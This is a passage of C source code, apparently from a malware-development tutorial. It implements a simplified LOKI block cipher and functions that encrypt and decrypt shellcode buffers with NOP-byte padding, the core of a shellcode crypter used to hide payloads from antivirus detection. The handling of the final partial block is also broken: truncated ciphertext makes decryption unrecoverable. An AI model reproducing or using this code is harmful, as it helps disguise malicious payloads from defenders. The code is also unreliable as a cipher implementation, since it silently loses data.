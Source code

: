 ```cpp
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;
}

void loki_decrypt(u8 *block, u8 *key) {
  // LOKI decryption (simplified for demo)
  u32 left = ((u32)block[0] << 24) | ((u32)block[1] << 16) | 
  ((u32)block[2] << 8) | (u32)block[3];
  u32 right = ((u32)block[4] << 24) | ((u32)block[5] << 16) | 
  ((u32)block[6] << 8) | (u32)block[7];

  for (int round = ROUNDS - 1; round >= 0; round--) {
    u32 temp = left;
    left = right ^ (left + ((u32)key[round % KEY_SIZE]));
    right = temp;
  }

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;
}

void loki_encrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    loki_encrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
    remaining);
    loki_encrypt(pad, key);
    memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
    remaining);
  }
}

void loki_decrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    loki_decrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
    remaining);
    loki_decrypt(pad, key);
    memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
    remaining);
  }
}

```